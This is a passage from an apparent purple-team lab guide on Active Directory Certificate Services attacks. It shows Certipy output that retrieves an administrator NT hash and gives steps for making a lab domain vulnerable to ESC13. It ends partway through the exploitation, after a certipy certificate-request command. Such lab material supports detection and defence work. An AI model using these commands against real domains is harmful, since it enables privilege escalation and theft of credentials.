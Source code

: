 [*] Certificate identities:
[*]     SAN UPN: 'administrator'
[*]     Security Extension SID: 'S-1-5-21-2903762927-2752062241-1101764633-1116'
[*] Using principal: 'administrator@purpleteam.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
File 'administrator.ccache' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@purpleteam.local': aad3b435b51404eeaad3b435b51404ee:aae723d86a44672c3e7868e441f92f02
```

## 11.3 ADCS event logs

This attack generate the same log as the ESC9.

# 12. ESC13

## 12.1 Setup the environment to be vulnerable to an ESC13 attack

1. Create a Universal Group

![ESC13_configuration_Group.jpg](ESC13/ESC13_configuration_Group.jpg)

This group must be empty. 
To illustrate the privilege escalation, I added a DACL to administrator account to allow the ESC13_Group to have full control over this account.

2. Create an OID under the AD's configuration naming context. 

The flags displayname, msDS-OIDToGroupLink and msPKI-Cert-Template-OID should be filled. 
```NB : For the OID we can generated a custom string such has the one here : 1.3.6.1.4.1.311.21.8.8553382.7995390.4934840.12506139.5198080.145.10460114.99027364```

This string should be unique among the existing OID and each "byte" should not have more than 16 chars. This value is filled in the **msPKI6Cert-Template-OID**.
For the **msDS-OIDToGroupLink**, the value to put is the DN of a group that will be linked to this OID which will add to our TGT, later on, the rights of this group.

![ESC13_configuration_issuancepolicy.jpg](ESC13/ESC13_configuration_issuancepolicy.jpg)

![ESC13_configuration_issuancepolicy2.jpg](ESC13/ESC13_configuration_issuancepolicy2.jpg)


3. Create the vulnerable certificate template with the InsuancePolicy we created earlier. 

I can just duplicate the User template and add this extension : 

![ESC13_configuration_certificatetemplate.jpg](ESC13/ESC13_configuration_certificatetemplate.jpg)

Then I can just allow it to be enrolled by any domain users & publish this certificate template.


## 12.2 Exploitation

1. Request the vulnerable template
```
└─$ certipy req -u "attacker@purpleteam.local" -p "1attacker*"  -dc-ip 172.16.0.1 -target "172.16.0.1" -ca 'DC01-CA' -template 'Vuln-ESC13'
Certipy v5.0.3 - by Oliver Lyak (ly4k)
